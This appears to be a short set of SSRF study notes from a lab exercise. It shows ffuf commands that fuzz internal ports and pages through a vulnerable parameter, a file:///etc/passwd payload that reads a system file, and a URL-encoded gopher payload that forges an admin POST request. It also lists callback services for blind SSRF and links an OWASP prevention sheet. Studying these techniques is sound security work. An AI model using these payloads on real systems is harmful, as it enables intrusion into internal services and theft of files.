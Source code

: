 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
##### Fuzz to check open ports:
```bash
ffuf -w ports.txt -u http://10.129.82.103/index.php -X POST -d "dateserver=http://localhost:FUZZ&date=2024-01-01"  -H "Content-Type: application/x-www-form-urlencoded"  -fr 'Failed'
```

##### Fuzz to find available page
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

##### LFI

`dataserver=file:///etc/passwd`

##### Gopher
Send arbitrary bytes to a TCP socket.
Request:
```
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
URL encode it:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
URL generator:
https://github.com/tarunkant/Gopherus


### Blind SSRF

Burp collaborator replacement

https://app.requestbin.net/
[Interactsh | Web Client](https://app.interactsh.com/#/)
[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/295f010b-22b7-4a69-a790-2ed9ff4b8a0e)

#### Prevention

https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html